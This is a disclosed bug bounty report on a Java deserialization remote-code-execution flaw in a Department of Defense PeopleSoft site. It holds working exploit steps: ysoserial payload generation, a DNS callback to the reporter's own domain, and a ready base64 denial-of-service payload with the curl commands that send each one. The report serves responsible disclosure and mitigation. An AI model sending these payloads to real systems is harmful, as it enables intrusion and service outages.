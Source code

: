 # Remote Code Execution (RCE) in a DoD website

## Report Details
- **Report ID**: 329376
- **URL**: https://hackerone.com/reports/329376
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-03-23T22:15:54.682Z
- **Disclosed**: 2019-10-08T18:51:48.128Z

## Reporter
- **Username**: joaomatosf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
SUMMARY:
====================

The DoD **`https://██████/psc/EXPROD_1/`** Web System uses the Oracle PeopleSoft platform which is vulnerable to Remote Code Execution (RCE) and Denial of Service Attacks (DoS) over a Java Object Deserialization (CWE-502) in the “monitor” service. Thus an attacker can generate and send malicious java objects of special types to your system and achieve arbitrary effects (such as RCE os DoS) during their deserialization (the objects are deserialized by readObject() method without any type of validation). This is related to CVE-2017-10366 [1].

PROOF OF CONCEPT
====================

For PoC I sent a special serialized java object in order to force the vulnerable server to perform a DNS Lookup for a domain controlled by me (testing1.jexboss.info). In this way, if the code is executed successfully by the DoD server I will receive a DNS query from DoD and see it in the logs of my BIND daemon (the vulnerable DoD server will perform a local DNS query for testing1.jexboss.info and the local DNS will try to query the authoritative nameserver for the jexboss.info domain (ns1.jexboss.info), which is mine).

For more details about this payload used, see [2].

**Attached is a video detailing the PoC.**

**Generating the payload:** for generate the payload I used the tool ysoserial.
```
$ git clone https://github.com/frohoff/ysoserial.git
$ cd ysoserial
$ mvn clean package –DskipTests
$ cd target
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://testing1.jexboss.info > payload
```

**Sending the payload to a vulnerable server:**
```
curl https://█████████/monitor/EXPROD_1 --data-binary @payload -k
```
After sending the payload to the DoD server, the code was successfully executed and I received the DNS query on my BIND server, as can be seen in the log record below.
	
**BIND logs:**
```
23-Mar-2018 18:51:09.183 queries: info: client █████████#53133: query: testing1.jexboss.info IN A -ED (10.0.1.202)
```

**Denial Of Service (DoS)**

This vulnerability also allows denial of service attacks, but I can not perform this test because it puts the availability of your service at risk. If you want to validate this, use the following PoC:

**Generating payload for Denial of Service (DoS)[3]:**
```
echo -n "rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cH////d1cQB+AAB////3dXEAfgAAf///93VxAH4AAH////d1cQB+AAB////3dXEAfgAAf///93VxAH4AAH////d1cQB+AAB////3" | base64 -d > payload_dos
```

**Sending:**
```
curl https://███████/monitor/EXPROD_1 --data-binary @payload_dos -k
```
This will make your service stop immediately and show the following error in the logs:
```Exception in thread "Thread-2" java.lang.OutOfMemoryError: Java heap space```

MITIGATION
====================

The best way to mitigate deserialization vulnerabilities is by not deserializing data received from users. In this particular case, any requests from the internet to the path /monitor should be rejected/blocked! 
Also, it is important to note that updating libraries used by attackers as Gadgets (such as commonsCollections) is not enough to protect against deserialization attacks, since new gadgets are discovered and published frequently. So, blocking the monitor service is best suited for this case!

REFERENCES:
====================
[1] - CVE-2017-10366. Link: https://nvd.nist.gov/vuln/detail/CVE-2017-10366
[2] - Triggering a DNS lookup using Java Deserialization. Link: https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
[3] - Java Deserialization DoS – payloads. Link: http://topolik-at-work.blogspot.com.br/2016/04/java-deserialization-dos-payloads.html

Best Regards, 
João Filho Matos Figueiredo, @joaomatosf

## Impact

This vulnerability allows:
1) Remote Code Execution (**RCE**)
2) Denial of Service (DoS)

## Attachments
No attachments
